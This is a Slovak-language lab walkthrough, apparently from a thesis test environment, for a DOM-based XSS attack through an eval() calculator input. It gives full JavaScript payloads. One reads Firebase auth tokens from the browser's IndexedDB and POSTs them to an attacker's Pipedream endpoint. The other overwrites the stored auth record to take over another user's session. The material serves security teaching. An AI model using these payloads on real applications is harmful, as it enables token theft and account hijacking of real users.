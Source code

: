 # Document object model cross site scripting (DOM XSS)

### Prostredie: Dp-Test-Enviroment - https://github.com/MatusVetrik/dp-test-enviroment

- Pri útoku využijeme zraniteľnú funkciu eval(), ktorá vyhodnotí vloženú hodnotu v akomkoľvek tvare.
- Každopádne tým, že vyhodnotí akúkoľvek hodnotu tak vyhodnotí aj škodlivý kód, ktorý ako argument vložíme.
- Vstup s textom "Enter equation..." vyhodnocuje práve funkcia eval() a predpokladáme, že na tomto mieste vzniká zraniteľnosť.
- Pokúsime sa o ukradnutie uživateľových dát z databázy prehliadaču. Do inputu vložíme nasledujúci kód.
    
          const request = window.indexedDB.open("firebaseLocalStorageDb");
            request.onsuccess = (event) => {
              const db = event.target.result;

              const transaction = db.transaction(["firebaseLocalStorage"], "readonly");
              const objectStore = transaction.objectStore("firebaseLocalStorage");

              const getDataRequest = objectStore.getAll();

              getDataRequest.onsuccess = (event) => {

              const headers = new Headers();
              headers.append("Content-Type", "text/plain");

              const options = {
                method: "POST",
                headers,
                mode: "cors",
                body: JSON.stringify(event.target.result),
              };

              // Doplnit endpoint vygenerovany sluzbou Pipedream
              fetch("pipedream-endpoint", options); 
              }
            };
- Tento kód sprístupní lokálnu databázu indexDB prehliadača a umožní nám vytiahnúť hodnoty z databázy. Náš momentálne zaujíma tabuľka "firebaseLocalStorage", ktorú nastavuje
  externá API Firebase, ktorú používa aplikácia na autentifikáciu. Po jej vytiahnutí sa celý objekt odošle na náš vytvorený endpoint na Pipedreame (inštalácia link).
- V kóde sa nachádza komentár nad funkciou fetch(). Pomocou služby Pipedream musíme vygenerovať nový endpoint a jeho url adresu vložiť do funkcie. Na adrese https://pipedream.com/ si vytvoríme
  nový projekt. Po vytvorení projketu vygenerujeme endpoint a v sekcii "trigger" skopírujeme url adresu a vložíme do hášho kódu.
- Kód vložíme do vstupného poľa a stalčíme "Enter".
- Teraz sa môžeme odhlásiť a prihlásiť sa do lubovľného účtu, ktorý už máme vytvorený alebo si vytvoríme nový.
- Prejdeme znova na obrazovku s kalkulačkou a vložíme nasledujúci kód do rovnakého vstupu.
        const request = window.indexedDB.open("firebaseLocalStorageDb");
        request.onsuccess = (event) => {
          const db = event.target.result;
  
          const transaction = db.transaction(["firebaseLocalStorage"], "readwrite");
          const objectStore = transaction.objectStore("firebaseLocalStorage");
  
          const data = {
          fbase_key: "random-fbase-key",
          value: {
            uid: "RTejhfCWw1OAlHcoAj41Fy93ZJJ3",
            email: "test@gmail.com",
            emailVerified: false,
            isAnonymous: false,
            providerData: [
              {
                providerId: "password",
                uid: "test@gmail.com",
                displayName: null,
                email: "test@gmail.com",
                phoneNumber: null,
                photoURL: null,
              },
            ],
            stsTokenManager: {
              refreshToken: "random-refresh-token",
              accessToken: "random-access-token",
              expirationTime: 1712794096425,
            },
            createdAt: "1711383904315",
            lastLoginAt: "1711790596471",
            apiKey: "random-api-key",
            appName: "[DEFAULT]",
          },
        };
  
          objectStore.clear()
  
          const addDataRequest = objectStore.add(data);
  
          addDataRequest.onsuccess = (event) => alert("Success!");
        };
- Kód uloží, respektíve prepíše dáta o prihlásenom používateľovi. Objekt "data" v ukážke je len na demonštráciu ako taký objekt vyzerá. Nahradíme ho objektom, ktorý nám došiel na vytvorený ednpoint po vygenerovaní objednávky.
    Objekt bude pravdepodobne treba preformátovať, takže názvy atribútov objektu musie byť bez úvodzoviek, tak ako tomu je v ukážkovom objekte.
- Po kliknuti klávesy "Enter" sme si do prehliadača uložili prihlasovacie údaje iného používateľa a teraz sme prihlásený pod jeho prihalsovacimi údajmi.
- Video návod sa nachádza v priečinku "video_instructions": /video_instructions/dom-xss-eval.mp4 (https://github.com/MatusVetrik/dp-attacks-instructions/blob/main/video_instructions/dom-xss-eval.mp4)